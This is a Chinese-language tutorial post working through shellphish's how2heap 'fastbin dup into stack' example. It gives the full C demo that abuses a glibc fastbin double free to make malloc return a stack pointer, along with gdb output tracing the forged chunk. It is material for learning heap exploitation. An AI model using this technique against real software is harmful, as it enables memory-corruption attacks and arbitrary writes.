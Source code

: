 ```yaml
---
title: how2heap-03 fastbin dup into stack实践笔记
tags: [CTF, pwn, heap]
layout: post
categories: tutorials
---
```


> 本文是对shellphish的[how2heap](https://github.com/shellphish/how2heap)系列堆漏洞课程的实践笔记

# 示例源码

``` c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	printf("This file extends on fastbin_dup.c by tricking malloc into\n"
	       "returning a pointer to a controlled location (in this case, the stack).\n");

	unsigned long long stack_var;

	printf("The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);
  /* [1] */
	printf("Allocating 3 buffers.\n");
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	printf("1st malloc(8): %p\n", a);
	printf("2nd malloc(8): %p\n", b);
	printf("3rd malloc(8): %p\n", c);

	printf("Freeing the first one...\n");
	free(a);

	printf("If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
	// free(a);

	printf("So, instead, we'll free %p.\n", b);
	free(b);

	printf("Now, we can free %p again, since it's not the head of the free list.\n", a);
	free(a);

	printf("Now the free list has [ %p, %p, %p ]. "
		"We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);

	unsigned long long *d = malloc(8);

	printf("1st malloc(8): %p\n", d);
	printf("2nd malloc(8): %p\n", malloc(8));
  /* [2] */
	printf("Now the free list has [ %p ].\n", a);
	printf("Now, we have access to %p while it remains at the head of the free list.\n"
		"so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
		"so that malloc will think there is a free chunk there and agree to\n"
		"return a pointer to it.\n", a);
	stack_var = 0x20;

	printf("Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
  /* [3] */
	printf("3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	printf("4th malloc(8): %p\n", malloc(8));
  /* [4] */
}
```

# 漏洞分析

这节是上节fastbin dup的扩展，目的是获得一个指向任意地址的指针，在这里我们是获得一个栈的指针

我们用gdb挂起程序，运行到`[1]`位置，此时我们定义了一个指针，指针的地址为`0x7fffffffdb68`，而我们希望`malloc()`返回的地址为`0x7fffffffdb70`

``` bash
The address we want malloc() to return is 0x7fffffffdb70.
```

继续向下，和`fastbin-dup`类似，因此具体过程不再描述，这里直接向下运行到`[2]`处

在`[2]`位置，程序新定义了一个指针`d`，指向新分配的内存地址，也就是chunk `a`的地址。往下，我们的目的是在栈中写入一个`伪造的free chunk的大小`，在这里我们是`stack_var`并设定为`0x20`

随后在`[3]`位置`*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));`，这意思是将point `d`指向`stack_var`的上一个位置

``` bash
gdb-peda$ freebins
fast bin 0 @ 0x602000
	free chunk @ 0x602000 - size 0x20
	free chunk @ 0x7fffffffdb60 - size 0x20
	free chunk @ 0x602010 - size 0x0
gdb-peda$ fastbins
fastbins
[ fb 0 ] 0x7ffff7dd3768  -> [ 0x602000 ] (32)
                            [ 0x7fffffffdb60 ] (32)
                            [ 0x602010 ] (32)
```

可以看见，实际上，通过修改了`fastbins`上的数据，伪造了一个新的`bin`，其中这个伪造`bin`的大小为`0x20`，地址为`0x7fffffffdb60`，也就是`*d = &stack_var - sizeof(d) = 0x7fffffffdb68 - 0x08 = 0x7fffffffdb60`,从而向`fastbins`添加了一个伪造的bin，即`[ 0x602000 ] -> [0x7fffffffdb60]`，这时再`malloc(8)`，那么申请两次，便可以获得一个栈上的地址，这个栈上的地址为`8+(char *)&stack_var`，即`[0x7fffffffdb70]`

即得到结论

> 通过fastbins的2free并覆盖fastbins结构，我们可以获得一个指向任意地址(比如栈)的指针

![fastbin_dup_into_stack](http://od7mpc53s.bkt.clouddn.com/how2heap-fastbin_dup_into_stack.png)
